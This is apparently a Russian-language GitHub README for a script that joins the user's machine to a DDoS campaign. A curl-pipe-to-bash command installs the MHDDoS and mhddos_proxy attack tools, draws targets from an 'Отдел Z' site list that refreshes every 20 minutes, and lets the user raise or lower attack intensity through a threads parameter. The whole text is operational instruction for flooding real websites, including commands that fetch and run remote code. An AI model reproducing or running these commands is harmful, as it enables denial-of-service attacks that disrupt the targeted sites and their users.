 # Запустить скрипт

curl -s https://raw.githubusercontent.com/dep-x/bash/master/bash.sh | bash
Автоматически устанавливает git python3, pip, mhddos_proxy, MHDDoS, расширенный список proxy и все зависимости.

Работает с базой сайтов Отдел Z.

База целей обновляется каждые 20 минут.

Во время запуска всегда проверяет и загружает обновления mhddos_proxy и MHDDoS.

Рекомендуется использовать на Ubuntu 20.04. Но должно работать на всех Ubuntu и Debian производных, а также в WSL2.

Для остановки скрипта несколько раз нажмите CTRL + C, или закройте окно с терминалом.

❕ Изменение интенсивности
Если скрипт очень замедляет ПК, или наоборот Вы имеете неиспользованные ресурсы, можно снизить, или наоборот повысить интенсивность работы скрипта. Для этого надо управлять параметром threads. По умолчанию threads = 1000.

Чтобы снизить нагрузку на систему, попробуйте использовать threads = 500

curl -s https://raw.githubusercontent.com/dep-x/bash/master/bash.sh | bash -s -- 500
Чтобы загрузить систему больше, попробуйте использовать threads = 2000

curl -s https://raw.githubusercontent.com/dep-x/bash/master/bash.sh | bash -s -- 2000
